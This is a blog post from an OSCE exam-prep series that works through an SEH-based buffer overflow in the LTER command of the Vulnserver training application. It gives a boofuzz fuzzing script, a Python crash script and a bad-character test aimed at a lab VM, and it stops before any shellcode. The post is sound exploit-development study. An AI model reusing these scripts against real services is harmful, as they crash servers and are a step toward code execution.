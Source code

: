 ```yaml
---
layout: single
title: CTP/OSCE Prep -- 'LTER' SEH Based Overflow in Vulnserver
date: 2019-5-29
classes: wide
header:
  teaser: /assets/images/CTP/immunity.jpg
tags:
  - buffer overflow
  - Windows
  - x86
  - shellcoding
  - exploit development
  - assembly
  - python
  - OSCE
  - CTP
  - SEH
--- 
```

![](/assets/images/CTP/1920x1080_Wallpaper.jpg)

## Introduction

This series of posts will focus on the concepts I'm learning/practicing in preparation for [CTP/OSCE](https://www.offensive-security.com/information-security-training/cracking-the-perimeter/). In this series of posts, I plan on exploring:
+ fuzzing,
+ vanilla EIP overwrite,
+ SEH overwrite, and
+ egghunters.

Writing these entries will force me to become intimately familiar with these topics, and hopefully you can get something out of them as well! 

In this particular post, we will be approaching an overflow in the `LTER` parameter trying to utilize all the tricks we've learned thus far. 

If you have not already done so, please read some of the posts in the 'CTP/OSCE Prep' series as this post will be light on review! 

## Goals

For this post, our goal is to try to utilize all the skills we've gained thus far to exploit Vulnserver in a new way, finding a new vulnerable parameter.

## Fuzzing

I tried to go sequentially through the parameters and find one I could fuzz which would make the application crash but none of the first few parameters would actually crash the server. I then picked some at random and struck out there as well. After this excercise, I'm going to have to go back and check people's walkthroughs and see if there is a problem with my Fuzzing methodology and I'm missing vulnerable params. Finally, I fuzzed `LTER` and got the server to crash. Loading it up in Immunity it looked to be an SEH overwrite, we've prepared for this!

The final `boofuzz` script I used looked like this:
```python
#!/usr/bin/python

from boofuzz import *

host = '192.168.1.201'	#windows VM
port = 9999		#vulnserver port

def main():
	
	session = Session(target = Target(connection = SocketConnection(host, port, proto='tcp')))
	
	s_initialize("LTER")	#just giving our session a name, "LTER"

    	s_string("LTER", fuzzable = False)	#these strings are fuzzable by default, so here instead of blank, we specify 'false'
    	s_delim(" ", fuzzable = False)		#we don't want to fuzz the space between "LTER" and our arg
   	s_string("FUZZ")			#This value is arbitrary as we did not specify 'False' for fuzzable. Boofuzz will fuzz this string now
 
        session.connect(s_get("LTER"))		#having our 'session' variable connect following the guidelines we established in "LTER"
    	session.fuzz()				#calling this function actually performs the fuzzing

if __name__ == "__main__":
    main()
```

## The Crash!

![](/assets/images/CTP/LTERcrash.JPG)

The first things I noted in Immunity when the server crashed:
+ We are being prompted by Immunity to pass an exception to the program,
+ We have overwritten ECX and EBP, 
+ The stack shows us that `01B4F1F0` and `01B4F1F4` hold `"LTER /.../BBBB..."`

Where do we go from here? Well, we know that having control of the registers is great; however, since we're going to have to pass an exception to this program, and we don't have control of EIP, these registers will be `XOR` against themselves and zeroed out. So the registers are dead to us. 

We definitely want to use the feedback we got from the stack readout where we saw `"LTER /.../BBBB..."`, we will hardcode this into our exploit script. 

The next step we want to do is track down exactly how many bytes `boofuzz` sent and since we know we filled the registers with `B` values, it shouldn't be too hard to track down the exact payload the fuzzer sent. 

## Replicating the Crash

Examining the CLI output from `boofuzz`,

![](/assets/images/CTP/LTERboo.JPG)

We find that in our third payload we sent 5012 bytes and they were all `B` values prepended by `LTER /.../`. So let's hardcode this into our `exploit.py` and see if we can get the program to crash without the fuzzer. This is our exploit script at this point:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

buffer = "A" * 5012

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

And we get it to crash, awesome

![](/assets/images/CTP/LTERreplicate.JPG)

Let's look at the SEH chain!

![](/assets/images/CTP/SEHLTER.JPG)

Awesome, we've managed to overwrite both of the SEH components, we can probably control the execution now. But, before we get carried away, we have two outstanding tasks:
1. Determine bad chars,
2. Calculate the offset to the SEH components (remember, they are separated by 4 bytes). 

## Determining Bad Characters

Let's cram the badchars variable into our `A` buffer since, judging by the stack output we get from Immunity, that space is huge. Our exploit code at this point will look like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = badchars
buffer += "A" * (5012 - len(badchars))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

Once we send this and the application crashes, we have to select one of the overwritten registers, I used EBP, and then right-click > follow in dump. We see that every thing was going really well until right after `7F` where we were expecting to see `80` but instead see a `01`. 

![](/assets/images/CTP/LTERbad80.JPG)








## Big Thanks

To everyone who has published free intro-level 32 bit exploit dev material, I'm super appreciative. Truly mean it. 
